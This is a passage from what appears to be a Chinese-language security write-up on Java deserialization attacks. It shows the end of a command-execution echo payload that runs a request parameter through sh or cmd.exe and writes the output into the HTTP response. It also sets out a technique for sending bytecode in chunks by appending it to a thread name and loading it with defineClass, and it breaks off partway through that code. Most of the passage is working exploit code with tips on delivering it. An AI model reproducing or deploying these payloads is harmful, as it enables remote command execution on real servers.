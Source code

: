 ```java
                            //执行命令
                            String cmd = request.getParameter(pass);
                            if (cmd != null) {
                                String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                                java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                                java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                                String output = s.hasNext() ? s.next() : "";
                                //回显
                                java.io.Writer writer = request.getResponse().getWriter();
                                java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                                usingWriter.setAccessible(true);
                                usingWriter.set(request.getResponse(), Boolean.FALSE);
                                writer.write(output);
                                writer.flush();
                            }
                            break;
                        }
                        break;
                    }
                    break;
                }
            }
        }
        catch (Exception e) {
        }
    }
}

```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250414220416523.png)

提一嘴，如果你的payload报BeanComparator不兼容，可能是你的payload用的mashalsec哦!另外，POST体需要URL编码，而cookie不需要

## 分散发包

Y4takcer，膜膜膜

采用以下流程，用线程名来存储base64字节码：

1. 先`Thread.currentThread().setName("Qwzf");`设置一个具有特征的线程名
2. 分块发包，把每个块的内容添加到线程名中
3. defineClass加载线程名

太有思路了哥，直接copy！改都不用改

```java
public class ThreadName extends AbstractTranslet {
    public ThreadName() throws Exception{
        //Thread.currentThread().setName("Qwzf");
        ThreadGroup a = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field v2 = a.getClass().getDeclaredField("threads");
        v2.setAccessible(true);
        Thread[] o = (Thread[]) v2.get(a);
        for(int i = 0; i < o.length; ++i) {
            Thread z = o[i];
            //在具有Qwzf标识的Thread name后添加Payload
            if (z.getName().contains("Qwzf")){
                //将Payload分成多段加入，Payload1、Payload2......
                String Payload1 = "";
                //String Payload2 = "";
```
